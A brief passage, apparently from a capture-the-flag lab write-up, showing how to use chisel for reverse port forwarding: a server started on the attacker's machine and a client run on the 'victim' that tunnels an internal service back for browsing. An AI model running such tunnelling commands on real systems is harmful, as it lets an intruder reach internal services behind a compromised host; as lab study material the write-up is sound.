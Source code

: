 * On my machine I should put the following command `./chisel server -p 8000`.
* On the victim `./chisel client 10.10.14.4:8000 R:80:10.10.11.164:3000`
* Then after I do that you just go and open `http://localhost` on the browser and it will open it. YES!!!!
* It's like using a reverse proxy for port forwarding.